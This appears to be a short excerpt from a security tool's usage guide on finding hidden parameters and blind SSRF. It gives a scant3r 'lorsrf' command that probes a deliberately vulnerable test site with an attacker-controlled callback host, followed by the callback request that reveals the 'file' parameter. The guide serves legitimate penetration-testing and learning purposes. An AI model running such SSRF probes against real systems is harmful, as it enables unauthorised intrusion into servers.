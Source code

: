 if you find any endpoints, you need to check for hidden parameters by using `Arjun/ParamPamPam`, this tools works on reflect parameter value/name in page or the response changes from 200 to 500, but you need to check for hidden parameters for find blind ssrf
```sh
$ echo 'http://testphp.vulnweb.com/showimage.php' | python3 scant3r.py -m lorsrf -w 100 --random-agents -x http://yourhost.com --method GET,POST,PUT -c json,plane # url query & json request
```
Response from Target
```
file -> hidden parameter

GET /file HTTP/1.1
Host: myhost:2020
User-Agent: curl/7.68.0
Accept: */*
```